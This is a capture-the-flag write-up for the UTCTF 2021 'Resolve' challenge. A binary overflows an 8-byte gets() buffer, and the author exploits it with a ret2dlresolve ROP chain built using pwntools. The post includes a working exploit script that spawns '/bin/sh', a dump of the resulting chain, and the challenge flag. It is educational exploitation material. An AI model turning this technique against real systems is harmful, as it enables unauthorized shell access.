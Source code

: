 ```yaml
---
layout: post
title: [UTCTF 2021] Resolve
author: Kevin Zhang
---
```


We are given a very barebones binary that looks like this:

```
int main(void)

{
  char local_10 [8];
  
  gets(local_10);
  return 0;
}

```
Now the vulnerability is a classic buffer overflow but the problem is that this is all there is in the binary. There isn't any libc addresses in the stack or in any of the registers when we return. Since we can't find an address leak that means we can't just find the address of `system()` and create a rop chain using that. After some digging I was able to find that the attack is called a ret2dlresolve. Here is a blog with more info about that: https://ypl.coffee/dl-resolve/  

Now what we could do is write a ret2dlresolve payload by hand such as the one [here]. No thanks. Fortunately, pwntools has a ret2dlsresolve module that will automatically generate the payloads for you. So our payload ends up being something like this:

```
context.binary = elf = ELF('resolve')
rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])

# Allows us to write to any location. We want to write to where the dlresolve payload will be
rop.gets(dlresolve.data_addr)

# RET gadget for stack alignment.
rop.raw(0x00401159) 

# The dlresolve payload
rop.ret2dlresolve(dlresolve)

# Put it together
raw_rop = rop.chain()

p = elf.process()

# First gets() to setup the rop chain to write to the correct address
p.sendline(fit({8+context.bytes: raw_rop})) 

# Second gets() to send the dlresolve payload.
p.sendline(dlresolve.payload) 
p.interactive()
```

The rop chain looks something like this:

```
0x0000:         0x4011c3 pop rdi; ret                                                                                   0x0008:         0x404e00 [arg0] rdi = 4214272                                                                           0x0010:         0x401044 gets                                                                                           0x0018:         0x401159                                                                                                0x0020:         0x4011c3 pop rdi; ret                                                                                   0x0028:         0x404e50 [arg0] rdi = 4214352                                                                           0x0030:         0x401020 [plt_init] system                                                                              0x0038:            0x310 [dlresolve index]
```

So just aim this at the server and ye shall receive the flag.  
`utflag{2_linker_problems_in_one_ctf?8079235}`  

It's pretty cool that we can still call libc functions without the use of address leaks. This exploit will definitely be something that I keep in mind for the future. Although it was really simple for this challenge due to no PIE which probably simplified where we could put the dlpayload.



[here]: (https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)